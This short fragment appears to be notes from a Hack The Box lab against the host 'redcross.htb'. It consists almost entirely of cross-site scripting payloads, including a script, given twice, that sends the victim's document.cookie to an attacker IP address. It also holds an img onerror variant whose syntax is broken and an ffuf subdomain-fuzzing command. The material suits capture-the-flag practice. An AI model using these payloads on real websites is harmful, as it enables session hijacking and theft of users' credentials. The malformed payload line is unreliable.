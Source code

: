 <script>alert(1)</script>
<script>var myimg = new Image(); myimg.src = 'http://10.10.16.6/q?=' + document.cookie;</script>


<img src=x onerror='http://10.10.16.6?c='+document.cookie>
<script>var myimg = new Image(); myimg.src = 'http://10.10.16.6/q?=' + document.cookie;</script>


ffuf -w /usr/share/seclists -u https://redcross.htb -H "Host: FUZZ.redcross.htb"